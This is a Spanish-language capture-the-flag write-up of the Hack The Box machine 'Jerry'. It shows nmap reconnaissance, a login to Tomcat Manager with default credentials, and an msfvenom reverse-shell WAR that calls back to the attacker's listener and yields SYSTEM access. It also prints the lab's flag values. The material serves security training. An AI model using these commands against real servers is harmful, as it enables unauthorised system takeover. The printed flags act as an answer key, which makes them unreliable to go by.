








## DESCRIPCION

Hoy veremos la máquina easy Jerry, la cual tiene montado un servidor web con TomCat, conseguiremos acceder al Manager App mediante la obtención de credenciales
haciendo reconocimiento web, desplegaremos una aplicación .War que contendrá una reverse shell, dándonos acceso como administrador del sistema. 

<p style="text-align:center;"></p>

## INDICE

- [Reconocimiento con Nmap](#reconocimiento-de-puertos)
- [Reconocimiento Web](#reconocimiento-web)
- [Manager App Tomcat](#acceso-al-manager-app)
- [Vías Potenciales](#vias)
	- [Creación de la reverse shell .WAR con Msfvenom &#9989;](#creacion-de-la-revshell-war-con-msfvenom)
- [Flags](#flags)
- [Conocimientos obtenidos](#conocimientos-obtenidos)
- [Autores y Referencias](#autores-y-referencias)

## RECONOCIMIENTO DE PUERTOS

Lo primero será ver que puertos están abiertos en la máquina objetivo, para ello utilizaremos la herramienta `Nmap`

```zsh
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ nmap --open -p- -T5 -Pn -oG Puertos 10.10.10.95
   2   │ Host: 10.10.10.95 ()    Status: Up
   3   │ Host: 10.10.10.95 ()    Ports: 8080/open/tcp//http-proxy/// Ignored State: filtered (65534)
   4   │ # Nmap done at Tue Jul 12 01:26:25 2022 -- 1 IP address (1 host up) scanned in 68.44 seconds
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ Reconocimiento Puertos

{*} Extrayendo puertos...

	La direccion ip es: 10.10.10.95
	Los puertos abiertos son: 8080

	Los puertos han sido copiados al portapapeles

```
<br>
Sabiendo que solo tenemos el puerto `8080` abierto procederemos a lanzar unos scripts predeterminados con Nmap.

```zsh
   1   │ nmap -sCV -p8080 -Pn -oN Objetivos 10.10.10.95
   2   │ Nmap scan report for 10.10.10.95
   3   │ Host is up (0.034s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
   7   │ |_http-title: Apache Tomcat/7.0.88
   8   │ |_http-favicon: Apache Tomcat
   9   │ |_http-server-header: Apache-Coyote/1.1

```
El servidor web está montado con Tomcat, por lo que vamos a comprobar la página web y que posibles accesos tenemos.

## RECONOCIMIENTO WEB

Al visitar la página web veremos la plantilla por defecto que utiliza TomCat.

<p style="text-align:center;"></p> 

Si pudiésemos acceder al Manager App podríamos intentar subir un archivo .War maliciosos el cual nos dará una reverse shell y nos comunicaremos con la máquina víctima.

Intentamos acceder, pero nos pide credenciales:

<p style="text-align:center;"></p>

Probando unas credenciales erróneas nos salta este error por parte de TomCat.

<p style="text-align:center;"></p> 

Si nos fijamos bien, nos está dando como credenciales de ejemplo esta línea.

```html
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

```
Espero que el Administrador no haya dejado por defecto estas credenciales, sería un error de novato ¿No creéis?

## ACCESO AL MANAGER APP

Probamos con `tomcat:s3cret` y bum, acceso concedido.

<p style="text-align:center;"></p>

Si miramos en la parte de abajo encontramos lo siguiente.

<p style="text-align:center;"></p>

Parece que sí podemos subir un archivo .WAR permitiéndonos desplegar una aplicación maliciosa. Para ello podemos usar `msfvenom`, tenemos la cheatsheet del ataque mediante .War file en 
<a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" target="_blank">HackTrinks</a>.

<br>

<h1 style="text-align: center;" id="vias">Vías Potenciales</h1>

## CREACION DE LA REVSHELL WAR CON MSFVENOM

Introducimos los parámetros correspondientes de la reverse shell:

```zsh
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.3 LPORT=1234 -f war -o revshell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: revshell.war
```
<br>
Antes de subir y ejecutar la aplicación maliciosa nos ponemos por escucha con `netcat`.

```zsh
❯ rlwrap nc -lnvp 1234 # rlwrap nos permite obtener una tty interactiva con windows
listening on [any] 1234 ...
```
## SUBIR REVERSE SHELL

En este momento podemos subir el archivo .War desde el menú mostrado anteriormente.

<p style="text-align:center;"></p>

Una vez subida la aplicación se nos mostrará en el menú del manger.

<p style="text-align:center;"></p>

Si nos dirigimos al directorio `http://10.10.10.95:8080/revshell/` la reverse shell se nos ejecutará y la recibiremos en el listener que hemos establecido previamente.

```
❯ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

```
¡Perfecto! Somos admins por defecto, por lo que solo tenemos que buscar las flags.

## FLAGS

<h3>USER.TXT Y ADMIN.TXT</h3>

```console
dir

Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,621,888 bytes free

type "2 for the price of 1.txt"

user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
Pues teníamos las dos flags en el mismo archivo, podemos dar por pwneada la máquina Jerry.

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Jerry</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos abiertos con Nmap.
- Reconocimiento web en busca de credenciales.
- Creación de una reverse shell en formato .War con Msfvenom.
- Desplegar un archivo .War desde el Manager App de TomCat.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra. <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>, si queréis contactarme por cualquier motivo lo podéis hacer desde <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.


Autor de la máquina:  <em>mrh4sh</em>, muchas gracias por la creación de Jerry aportando a la comunidad. <a href="https://app.hackthebox.com/users/2570" target="_blank">HTB</a>.


